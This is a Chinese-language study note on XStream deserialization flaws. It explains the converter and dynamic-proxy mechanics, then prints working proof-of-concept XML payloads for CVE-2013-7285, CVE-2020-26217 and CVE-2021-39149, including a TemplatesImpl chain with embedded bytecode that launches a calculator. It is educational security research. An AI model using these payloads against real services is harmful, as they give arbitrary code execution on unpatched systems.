






# Java安全学习—XStream反序列化漏洞

Author: H3rmesk1t

Data: 2022.03.02

# XStream
## 简介
[XStream](https://zh.wikipedia.org/wiki/XStream)是`Java`类库, 用来将对象序列化成`XML`格式, 或者将`XML`反序列化为对象.

## 序列化与反序列化
先定义一个接口类`DemoInterface`:

```java
package org.h3rmesk1t.XStream;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/2 11:25 上午
 */
public interface DemoInterface {

    void output();
}

```

接着定义`Demo`类来实现前面的接口:

```java
package org.h3rmesk1t.XStream;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/2 11:25 上午
 */
public class Demo implements DemoInterface {

    String name;

    public void output() {

        System.out.println("Hello, " + this.name);
    }
}
```

调用`XStream.toXML`来实现序列化, 调用`XStream.fromXML`来实现反序列化:

```java
package org.h3rmesk1t.XStream;

import com.thoughtworks.xstream.XStream;
import com.thoughtworks.xstream.io.xml.DomDriver;

import java.io.FileInputStream;
import java.io.FileNotFoundException;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/2 11:27 上午
 */
public class DemoXML {

    public static void main(String[] args) throws FileNotFoundException {

//        Demo demo = new Demo();
//        demo.name = "h3rmesk1t";
//        XStream xStream = new XStream(new DomDriver());
//        String xml = xStream.toXML(demo);
//        System.out.println(xml);
        FileInputStream xml = new FileInputStream("/Users/h3rmesk1t/Desktop/JavaSec-Learn/src/main/java/org/h3rmesk1t/XStream/demo.xml");
        XStream xStream = new XStream(new DomDriver());
        Demo demo = (Demo) xStream.fromXML(xml);
        demo.output();
    }
}
```

序列化和反序列化操作分别输出:
 - 序列化

```xml
<org.h3rmesk1t.XStream.Demo>
    <name>h3rmesk1t</name>
</org.h3rmesk1t.XStream.Demo>
```

```text
Hello, h3rmesk1t
```

# XStream 反序列化漏洞
截止到目前`XStream`官网上给出的[漏洞集合](https://x-stream.github.io/security.html#:~:text=%E6%A3%80%E6%9F%A5%E6%9D%A5%E5%A4%84%E7%90%86%E3%80%82-,%E8%AE%B0%E5%BD%95%E7%9A%84%E6%BC%8F%E6%B4%9E,-%E5%A4%9A%E5%B9%B4%E6%9D%A5%EF%BC%8CMitre)

<div align=center></div>

## 前置知识
### Converter 转换器
[Converter](http://x-stream.github.io/converters.html)的职责是提供一种策略, 用于在对象图中找到的特定类型的对象与`XML`之间的转换. `XStream`为`Java`的常见类型(例如: 原始类型、字符串、文件、集合、数组和日期)提供了`Converter`转换器. 简而言之, 就是输入`XML`后它能识别其中的标签字段并转换为相应的对象, 反之亦然.

转换器需要实现的三个方法:
 - `canConvert`方法: 告诉`XStream`对象, 它能够转换的对象.
 - `marshal`方法: 将对象转换为`XML`时候的具体操作.
 - `unmarshal`方法: 将`XML`转换为对象时的具体操作.

#### MapConverter
`MapConverter`是针对`Map`类型还原的`Converter`, 跟进`MapConverter#unmarshal`, 依次调用`unmarshal`, `populateMap`, `putCurrentEntryIntoMap`, 最后进入到`target.put(key, value);`中, 调用`Map`的`put`函数, 后续就是对`key`调用`hashCode`函数.

<div align=center></div>

#### TreeSet/TreeMapConverter
`TreeSetConverter`和`TreeMapConverter`的区别并不大, `TreeSet`本身就是一个只用上了`Key`的`TreeMap`, `TreeSetConverter`的反序列化处理也是先转化为`TreeMapConverter`的方式来优先还原`TreeSet`里的`TreeMap`, 再填充到`TreeSet`里.

这里从`TreeSetConverter`的调用来看看整个的调用过程. 先从`TreeSet`中提取出`TreeMap`, 接着进一步调用`TreeMapConverter`来还原`TreeMap`. 在`TreeMapConverter`中利用`sortedMap`来填充需要还原的`Entry`, 这里会回到上文提到的`MapConverter`类中的`populateMap`和`putCurrentEntryIntoMap`方法, 最后调用`TreeMap.putAll`方法, 调用到`java.util.AbstractMap#putAll`方法.

<div align=center></div>

<div align=center></div>

#### DynamicProxyConverter
`DynamicProxyConverter`即动态代理转换器, 是`XStream`支持的一种转换器, 其存在使得`XStream`能够把`XML`内容反序列化转换为动态代理类对象. 这里可以参考[XStream 官网]()给出的`POC`:

```xml
<contact class='dynamic-proxy'>
  <interface>org.company.model.Contact</interface>
  <handler class='java.beans.EventHandler'>
    <target class='java.lang.ProcessBuilder'>
      <command>
        <string>calc.exe</string>
      </command>
    </target>
    <action>start</action>
  </handler>
</contact>
```

`dynamic-proxy`标签在`XStream`反序列化之后会得到一个动态代理类对象, 当访问了该对象的`org.company.model.Contact`接口类中声明的方法时, 就会调用`handler`标签中的类方法`java.beans.EventHandler`.

### EventHandler
在上文给出的以`DynamicProxyConverter`转换器为基础来编写的`POC`中提到了`EventHandler`类, 该类为动态生成事件侦听器提供支持, 这些侦听器的方法执行一条涉及传入事件对象和目标对象的简单语句.

`EventHandler`类是一个实现了`InvocationHandler`的类, `EventHandler`类定义的代码如下: 其含有`target`和`action`属性, 在`EventHandler.invoke`->`EventHandler.invokeInternal`->`MethodUtil.invoke`的函数调用链中, 会将前面两个属性作为类方法和参数继续反射调用.

<div align=center></div>

## 基本原理
`XStream`是自己实现的一套序列化和反序列化机制, 核心是通过`Converter`转换器来将`XML`和对象之间进行相互的转换, 这与原生的`Java`序列化和反序列化机制有所区别. 

`XStream`反序列化漏洞的存在是因为`XStream`支持一个名为`DynamicProxyConverter`的转换器, 该转换器可以将`XML`中`dynamic-proxy`标签内容转换成动态代理类对象, 而当程序调用了`dynamic-proxy`标签内的`interface`标签指向的接口类声明的方法时, 就会通过动态代理机制代理访问`dynamic-proxy`标签内`handler`标签指定的类方法. 利用这个机制, 攻击者可以构造恶意的`XML`内容, 即`dynamic-proxy`标签内的`handler`标签指向如`EventHandler`类这种可实现任意函数反射调用的恶意类、`interface`标签指向目标程序必然会调用的接口类方法. 最后当攻击者从外部输入该恶意`XML`内容后即可触发反序列化漏洞, 从而来达到任意代码执行的目的.

## 漏洞分析
`XStream`可谓是大好人, [XStream 官网](https://x-stream.github.io/security.html)给出了仅包含可以使用带有 `XStream`的`Java`运行时创建的漏洞相对应的`POC`.

### CVE-2013-7285
#### 漏洞信息
 1. Vulnerability
    - CVE-2013-7285: XStream can be used for Remote Code Execution.
 2. Affected Versions
    - All versions until and including version 1.4.6 are affected. Version 1.4.10 is affected if the security framework has not been initialized.
 3. Description
    - The processed stream at unmarshalling time contains type information to recreate the formerly written objects. XStream creates therefore new instances based on these type information. An attacker can manipulate the processed input stream and replace or inject objects, that can execute arbitrary shell commands.

#### POC
基于`sorted-set`:

```xml
<sorted-set>
<string>foo</string>
<dynamic-proxy>
    <interface>java.lang.Comparable</interface>
    <handler class="java.beans.EventHandler">
        <target class="java.lang.ProcessBuilder">
            <command>
                <string>open</string>
                <string>-a</string>
                <string>Calculator</string>
            </command>
        </target>
        <action>start</action>
    </handler>
</dynamic-proxy>
</sorted-set>
```

基于`tree-map`:

```xml
<tree-map>
<entry>
    <string>fookey</string>
    <string>foovalue</string>
</entry>
<entry>
    <dynamic-proxy>
        <interface>java.lang.Comparable</interface>
        <handler class="java.beans.EventHandler">
            <target class="java.lang.ProcessBuilder">
                <command>
                    <string>open</string>
                    <string>-a</string>
                    <string>Calculator</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </dynamic-proxy>
    <string>good</string>
</entry>
</tree-map>
```

基于接口, 这里需要注意:
 - 必须知道服务端反序列化得到的是什么接口类, 需填写在`interface`中.
 - 接口类必须定义成`public`, 否则程序运行会报错显示没有权限访问该接口类.

```xml
<contact class='dynamic-proxy'>
<interface>org.h3rmesk1t.XStream.DemoInterface</interface>
<handler class='java.beans.EventHandler'>
    <target class='java.lang.ProcessBuilder'>
        <command>
            <string>open</string>
            <string>-a</string>
            <string>Calculator</string>
        </command>
    </target>
    <action>start</action>
</handler>
</contact>
```

<div align=center></div>

#### 过程分析
参考[Java XStream反序列化漏洞](https://www.mi1k7ea.com/2019/10/21/XStream%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/#:~:text=%E4%B8%8B%E9%9D%A2%E6%88%91%E4%BB%AC%E5%9C%A8xstream.fromXML()%E8%AF%AD%E5%8F%A5%E4%B8%AD%E6%89%93%E4%B8%8A%E6%96%AD%E7%82%B9%E8%BF%9B%E8%A1%8C%E8%B0%83%E8%AF%95%EF%BC%8C%E5%90%8C%E6%97%B6%E5%9C%A8EventHandler%E7%B1%BB%E4%B8%AD%E7%9A%84invoke()%E5%92%8CinvokeInternal()%E5%87%BD%E6%95%B0%E4%B8%8A%E4%B9%9F%E6%89%93%E4%B8%8A%E6%96%AD%E7%82%B9%E3%80%82)中的调试过程.

### CVE-2020-26217
#### 漏洞信息
 1. Vulnerability
    - CVE-2020-26217: XStream can be used for Remote Code Execution.
 2. Affected Versions
    - All versions until and including version 1.4.13 are affected, if using the version out of the box. No user is affected, who followed the recommendation to setup [XStream's security framework](https://x-stream.github.io/security.html#framework) with a whitelist.
 3. Description
    - The processed stream at unmarshalling time contains type information to recreate the formerly written objects. XStream creates therefore new instances based on these type information. An attacker can manipulate the processed input stream and replace or inject objects, that can execute arbitrary shell commands.
    - This issue is a variation of CVE-2013-7285, this time using a different set of classes of the Java runtime environment, none of which is part of the XStream default blacklist. The same issue has already been reported for Strut's XStream plugin in CVE-2017-9805, but the XStream project has never been informed about it.

#### POC
```xml
<map>
    <entry>
        <jdk.nashorn.internal.objects.NativeString>
            <flags>0</flags>
            <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
                <dataHandler>
                    <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
                        <contentType>text/plain</contentType>
                        <is class='java.io.SequenceInputStream'>
                            <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
                                <iterator class='javax.imageio.spi.FilterIterator'>
                                    <iter class='java.util.ArrayList$Itr'>
                                        <cursor>0</cursor>
                                        <lastRet>-1</lastRet>
                                        <expectedModCount>1</expectedModCount>
                                        <outer-class>
                                            <java.lang.ProcessBuilder>
                                                <command>
                                                    <string>open</string>
                                                    <string>-a</string>
                                                    <string>Calculator</string>
                                                </command>
                                            </java.lang.ProcessBuilder>
                                        </outer-class>
                                    </iter>
                                    <filter class='javax.imageio.ImageIO$ContainsFilter'>
                                        <method>
                                            <class>java.lang.ProcessBuilder</class>
                                            <name>start</name>
                                            <parameter-types/>
                                        </method>
                                        <name>start</name>
                                    </filter>
                                    <next/>
                                </iterator>
                                <type>KEYS</type>
                            </e>
                            <in class='java.io.ByteArrayInputStream'>
                                <buf></buf>
                                <pos>0</pos>
                                <mark>0</mark>
                                <count>0</count>
                            </in>
                        </is>
                        <consumed>false</consumed>
                    </dataSource>
                    <transferFlavors/>
                </dataHandler>
                <dataLen>0</dataLen>
            </value>
        </jdk.nashorn.internal.objects.NativeString>
        <string>test</string>
    </entry>
</map>
```

<div align=center></div>

#### 过程分析
参考[XStream反序列化CVE-2020-26217漏洞分析](https://www.anquanke.com/post/id/222830#:~:text=%C2%A0-,%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90,-%E7%94%B1%E4%BA%8E%E8%AF%A5%E6%BC%8F%E6%B4%9E)中的调试过程.

### CVE-2021-39149
#### 漏洞信息
 1. Vulnerability
    - CVE-2021-39149: XStream is vulnerable to an Arbitrary Code Execution attack.
 2. Affected Versions
    - All versions until and including version 1.4.17 are affected, if using the version out of the box. No user is affected, who followed the recommendation to setup [XStream's security framework](https://x-stream.github.io/security.html#framework) with a whitelist limited to the minimal required types.
 3. Description
    - The processed stream at unmarshalling time contains type information to recreate the formerly written objects. XStream creates therefore new instances based on these type information. An attacker can manipulate the processed input stream and replace or inject objects, that result in execution of arbitrary code loaded from a remote server.

#### POC

```xml
<linked-hash-set>
    <dynamic-proxy>
        <interface>map</interface>
        <handler class='com.sun.corba.se.spi.orbutil.proxy.CompositeInvocationHandlerImpl'>
            <classToInvocationHandler class='linked-hash-map'/>
            <defaultHandler class='sun.tracing.NullProvider'>
                <active>true</active>
                <providerType>java.lang.Object</providerType>
                <probes>
                    <entry>
                        <method>
                            <class>java.lang.Object</class>
                            <name>hashCode</name>
                            <parameter-types/>
                        </method>
                        <sun.tracing.dtrace.DTraceProbe>
                            <proxy class='com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl' serialization='custom'>
                                <com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl>
                                    <default>
                                        <__name>Pwnr</__name>
                                        <__bytecodes>
                                            <byte-array>yv66vgAAADIAOQoAAwAiBwA3BwAlBwAmAQAQc2VyaWFsVmVyc2lvblVJRAEAAUoBAA1Db25zdGFudFZhbHVlBa0gk/OR3e8+AQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBABNTdHViVHJhbnNsZXRQYXlsb2FkAQAMSW5uZXJDbGFzc2VzAQA1THlzb3NlcmlhbC9wYXlsb2Fkcy91dGlsL0dhZGdldHMkU3R1YlRyYW5zbGV0UGF5bG9hZDsBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhkb2N1bWVudAEALUxjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NOwEACGhhbmRsZXJzAQBCW0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAKRXhjZXB0aW9ucwcAJwEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAKU291cmNlRmlsZQEADEdhZGdldHMuamF2YQwACgALBwAoAQAzeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRTdHViVHJhbnNsZXRQYXlsb2FkAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAFGphdmEvaW8vU2VyaWFsaXphYmxlAQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQAfeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cwEACDxjbGluaXQ+AQARamF2YS9sYW5nL1J1bnRpbWUHACoBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7DAAsAC0KACsALgEACGNhbGMuZXhlCAAwAQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwwAMgAzCgArADQBAA1TdGFja01hcFRhYmxlAQAbeXNvc2VyaWFsL1B3bmVyNjMzNTA1NjA2NTkzAQAdTHlzb3NlcmlhbC9Qd25lcjYzMzUwNTYwNjU5MzsAIQACAAMAAQAEAAEAGgAFAAYAAQAHAAAAAgAIAAQAAQAKAAsAAQAMAAAALwABAAEAAAAFKrcAAbEAAAACAA0AAAAGAAEAAAAvAA4AAAAMAAEAAAAFAA8AOAAAAAEAEwAUAAIADAAAAD8AAAADAAAAAbEAAAACAA0AAAAGAAEAAAA0AA4AAAAgAAMAAAABAA8AOAAAAAAAAQAVABYAAQAAAAEAFwAYAAIAGQAAAAQAAQAaAAEAEwAbAAIADAAAAEkAAAAEAAAAAbEAAAACAA0AAAAGAAEAAAA4AA4AAAAqAAQAAAABAA8AOAAAAAAAAQAVABYAAQAAAAEAHAAdAAIAAAABAB4AHwADABkAAAAEAAEAGgAIACkACwABAAwAAAAkAAMAAgAAAA+nAAMBTLgALxIxtgA1V7EAAAABADYAAAADAAEDAAIAIAAAAAIAIQARAAAACgABAAIAIwAQAAk=</byte-array>
                                            <byte-array>yv66vgAAADIAGwoAAwAVBwAXBwAYBwAZAQAQc2VyaWFsVmVyc2lvblVJRAEAAUoBAA1Db25zdGFudFZhbHVlBXHmae48bUcYAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAANGb28BAAxJbm5lckNsYXNzZXMBACVMeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRGb287AQAKU291cmNlRmlsZQEADEdhZGdldHMuamF2YQwACgALBwAaAQAjeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRGb28BABBqYXZhL2xhbmcvT2JqZWN0AQAUamF2YS9pby9TZXJpYWxpemFibGUBAB95c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzACEAAgADAAEABAABABoABQAGAAEABwAAAAIACAABAAEACgALAAEADAAAAC8AAQABAAAABSq3AAGxAAAAAgANAAAABgABAAAAPAAOAAAADAABAAAABQAPABIAAAACABMAAAACABQAEQAAAAoAAQACABYAEAAJ</byte-array>
                                        </__bytecodes>
                                        <__transletIndex>-1</__transletIndex>
                                        <__indentNumber>0</__indentNumber>
                                    </default>
                                    <boolean>false</boolean>
                                </com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl>
                            </proxy>
                            <implementing__method>
                                <class>com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl</class>
                                <name>getOutputProperties</name>
                                <parameter-types/>
                            </implementing__method>
                        </sun.tracing.dtrace.DTraceProbe>
                    </entry>
                </probes>
            </defaultHandler>
        </handler>
    </dynamic-proxy>
</linked-hash-set>
```

#### 过程分析
参考[Xstream反序列化分析（CVE-2021-39149）](https://xz.aliyun.com/t/10360#:~:text=%E6%B4%9E%E7%9C%9F%E6%96%B9%E4%BE%BF%E3%80%82-,%E6%AD%A3%E5%84%BF%E5%85%AB%E7%BB%8F%E7%9A%84%E5%88%86%E6%9E%90,-XStream%E7%9A%84%E5%88%86%E6%9E%90)中的调试过程.

# 参考
 - [Java XStream反序列化漏洞](https://www.mi1k7ea.com/2019/10/21/XStream%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/#%E5%A4%8D%E7%8E%B0-2)
 - [XStream反序列化CVE-2020-26217漏洞分析](https://www.anquanke.com/post/id/222830#h2-2)
 - [Xstream反序列化分析（CVE-2021-39149）](https://xz.aliyun.com/t/10360)
 - [回顾XStream反序列化漏洞](https://www.anquanke.com/post/id/204314#h3-7)